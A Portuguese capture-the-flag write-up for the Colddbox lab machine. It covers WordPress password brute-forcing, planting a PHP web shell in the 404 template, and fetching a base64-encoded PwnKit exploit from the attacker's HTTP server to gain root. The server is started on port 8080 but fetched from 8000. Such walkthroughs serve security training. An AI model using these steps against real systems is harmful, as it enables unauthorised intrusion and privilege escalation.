








# _**Colddbox CTF**_


## _**Enumeraão**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```


Parece que temos uma página web, vamos investigar  
Parece que temos wordpress, vamos tentar enumerar seus diretórios com <mark>wpscan</mark>
> ```bash
> wpscan --url [ip_address] --enumerate vp,vt,cb
> ```


Temos algumas informações úteis, mas nada que podemos explorar  
Com um sca <mark>Nmap</mark>, também obtemos informações de diretórios
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-content/CMS/wordpress.fuzz.txt
> ```


## _**Ganhando acesso**_

Ainda podemos tentar enumerar usuários e tentar realizar brute-force  
Para isso, vamos:
> ```bash
> wpscan --url http://[ip_address] -e u -P /usr/share/wordlists/rockyou.txt
> ```


Sucesso!  
Vamos realizar login com o usuário ```c0ldd``` e senha descobertos  
Após o login, podemos usar os recursos sofisticados do modelo 404 do WordPress, que permitem a incorporação de código PHP  
O WordPress é muito inseguro por permitir isso por padrão  
Então, é fácil: podemos usar isso para incorporar nosso shell web PHP nesse modelo  

  

  

E temos um shell!  
Vamos melhorar com ```python3 -c 'import pty, os; pty.spawn("/bin/bash")'```  

## _**Escalando privilégios**_
Executando o comando ```find / -perm -4000 -type f 2>/dev/null```, temos o retorno de um arquivo peculiar: **pkexec**  
Podemos explorar essa falha com <mark>PwnKit</mark>  
Ao tentar realizar a transferência de arquivos para a máquina-alvo, temos como bloqueado  
Para contornar, vamos executar alguns comandos  

<mark>Primeiro, em nossa máquina</mark>
> ```bash
> base64 pwnkit > pwnkit.b64
> ```
> ```bash
> python3 -m http.server 8080
> ```

<mark>Segundo, na máquina-alvo</mark>
> ```bash
> wget http://[ip_address]:8000/pwnkit.b64 -O /tmp/pwnkit.b64
> ```
> ```bash
> base64 -d /tmp/pwnkit.b64 > /tmp/pk
> ```
> ```bash
> chmod +x /tmp/pk
> ```
> ```bash
> cd /tmp
> ```
> ```bash
> ./pk
> ```


Agora basta apenas buscar as flags!
